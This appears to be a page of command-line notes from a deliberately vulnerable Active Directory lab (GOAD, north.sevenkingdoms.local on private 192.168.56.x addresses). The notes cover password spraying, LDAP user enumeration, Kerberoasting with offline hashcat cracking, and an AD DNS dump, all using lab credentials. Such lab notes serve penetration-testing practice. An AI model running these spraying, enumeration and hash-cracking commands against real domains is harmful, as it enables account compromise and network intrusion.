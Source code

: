```
#We could try sprayhound with a valid user to avoid locking account (option -t to set the number of try left)
sprayhound -U users.txt -d north.sevenkingdoms.local -dc 192.168.56.11 -lu hodor -lp hodor --lower -t 2

#See the status of bruteforce
crackmapexec smb -u samwell.tarly -p Heartsbane -d north.sevenkingdoms.local 192.168.56.11 --users

```

# User listing
```
GetADUsers.py -all north.sevenkingdoms.local/brandon.stark:iseedeadpeople 
python3 /opt/windapsearch/windapsearch.py -d north.sevenkingdoms.local -u brandon.stark@north.sevenkingdoms.local -p 'iseedeadpeople' -U 

ldapsearch -H ldap://192.168.56.11 -D "brandon.stark@north.sevenkingdoms.local" -w iseedeadpeople -b 'DC=north,DC=sevenkingdoms,DC=local' "(&(objectCategory=person)(objectClass=user))" |grep 'distinguishedName:'
ldapsearch -H ldap://192.168.56.12 -D "brandon.stark@north.sevenkingdoms.local" -w iseedeadpeople -b ',DC=essos,DC=local' "(&(objectCategory=person)(objectClass=user))"
ldapsearch -H ldap://192.168.56.10 -D "brandon.stark@north.sevenkingdoms.local" -w iseedeadpeople -b 'DC=sevenkingdoms,DC=local' "(&(objectCategory=person)(objectClass=user))"

```

# Kerberoasting
On an active directory, we will see very often users with an SPN set.
```
GetUserSPNs.py -request -dc-ip 192.168.56.11 north.sevenkingdoms.local/brandon.stark:iseedeadpeople -outputfile kerberoasting.hashes

crackmapexec ldap 192.168.56.11 -u brandon.stark -p 'iseedeadpeople' -d north.sevenkingdoms.local --kerberoasting KERBEROASTING

hashcat -m 13100 --force -a 0 kerberoasting.hashes /usr/share/wordlists/rockyou.txt --force

#crackmapexec smb 192.168.56.10-23 -u jon.snow -p iknownothing -d north.sevenkingdoms.local --shares
```

# DNS dump
```
adidnsdump -u 'north.sevenkingdoms.local\jon.snow' -p 'iknownothing' winterfell.north.sevenkingdoms.local
adidnsdump -u 'north.sevenkingdoms.local\jon.snow' -p 'iknownothing' winterfell.north.sevenkingdoms.local --sslprotocol TLSv1_2
```
